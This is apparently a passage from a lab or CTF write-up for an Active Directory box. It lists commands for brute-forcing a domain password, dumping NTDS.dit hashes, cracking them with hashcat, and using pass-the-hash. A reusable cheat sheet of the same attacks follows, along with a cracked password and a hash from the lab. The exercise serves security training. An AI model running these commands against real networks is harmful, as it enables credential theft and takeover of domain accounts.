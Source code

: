 ### Phase 3-4: Password Attack and NTDS Extraction
```bash
# 5. Password brute force
./kerbrute bruteuser -d ILF.local --dc 10.129.202.85 /usr/share/wordlists/fasttrack.txt jmarston
# → [+] VALID LOGIN: jmarston@ILF.local:P@ssword!

# 6. NTDS.dit extraction
netexec smb 10.129.202.85 -u jmarston -p 'P@ssword!' -d ILF.local -M ntdsutil
# → All domain hashes extracted
```

### Phase 5: Hash Cracking
```bash
# 7. Extract Jennifer Stapleton's hash
# jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::

# 8. Crack the hash
echo "161cff084477fe596a5db81874498a24" > jstapleton_hash.txt
hashcat -m 1000 jstapleton_hash.txt /usr/share/wordlists/rockyou.txt
# → Result: Winter2008
```

## 📋 Quick Reference Commands

### Discovery
```bash
# Domain enumeration
netexec smb TARGET_IP

# Username enumeration  
./kerbrute userenum -d DOMAIN.local --dc TARGET_IP usernames.txt

# Password attacks
netexec smb TARGET_IP -u users.txt -p passwords.txt --continue-on-success -d DOMAIN.local
```

### NTDS.dit Extraction
```bash
# NetExec method (recommended)
netexec smb TARGET_IP -u USER -p PASS -d DOMAIN.local -M ntdsutil

# Direct extraction
netexec smb TARGET_IP -u USER -p PASS -d DOMAIN.local --ntds

# Impacket method
python3 secretsdump.py DOMAIN.local/USER:PASS@TARGET_IP -just-dc-ntlm
```

### Hash Analysis
```bash
# Extract NT hashes
grep ":::" ntds_dump.txt | cut -d: -f4 > nt_hashes.txt

# Crack with Hashcat
hashcat -m 1000 nt_hashes.txt /usr/share/wordlists/rockyou.txt

# Pass-the-Hash
evil-winrm -i TARGET_IP -u Administrator -H NTHASH
```

